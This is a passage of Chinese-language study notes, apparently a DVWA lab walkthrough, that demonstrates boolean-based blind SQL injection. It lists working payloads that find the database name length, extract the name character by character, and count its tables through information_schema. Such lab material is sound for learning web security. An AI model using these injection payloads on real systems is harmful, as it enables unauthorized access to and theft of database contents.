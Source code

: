   - 1' and length(database())=4 #   // 设数据库长度为4

  <img src="img\sql-blind2.jpg" alt="sql-blind2" style="zoom:67%;" />

-  猜解数据库的名称

  - 1' and ascii(substr(database(),1,1))=100 #   d
  - 1' and ascii(substr(database(),2,1))=118 #   v
  - 1' and ascii(substr(database(),3,1))=119 #   w
  - 1' and ascii(substr(database(),4,1))=97 #   a

  <img src="img\sql-blind3.jpg" alt="sql-blind3" style="zoom:67%;" />

- 猜解数据库中的表名

  - 猜解库中有几个表：1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2 #  //有2个表

  <img src="img\sql-blind4.jpg" alt="sql-blind4" style="zoom:67%;" />
